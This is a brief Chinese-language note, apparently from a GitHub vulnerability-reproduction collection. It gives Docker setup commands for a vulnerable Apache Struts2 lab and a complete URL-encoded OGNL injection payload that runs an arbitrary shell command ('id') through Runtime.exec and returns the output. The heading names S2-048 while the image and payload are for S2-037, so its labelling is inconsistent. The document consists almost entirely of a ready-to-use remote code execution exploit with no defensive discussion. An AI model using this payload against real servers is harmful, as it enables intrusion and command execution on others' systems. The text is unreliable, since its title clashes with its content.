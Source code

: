 ### S2-048 远程代码执行漏洞
### 环境搭建
```
docker pull medicean/vulapps:s_struts2_s2-037
docker run -d -p 8080:8080 medicean/vulapps:s_struts2_s2-037
```
### exploit

http://127.0.0.1:8080/orders/4/[payload]

```
(%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)%3f(%23wr%3d%23context%5b%23parameters.obj%5b0%5d%5d.getWriter(),%23rs%3d@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(%23parameters.command[0]).getInputStream()),%23wr.println(%23rs),%23wr.flush(),%23wr.close()):xx.toString.json?&obj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&content=16456&command=id
```
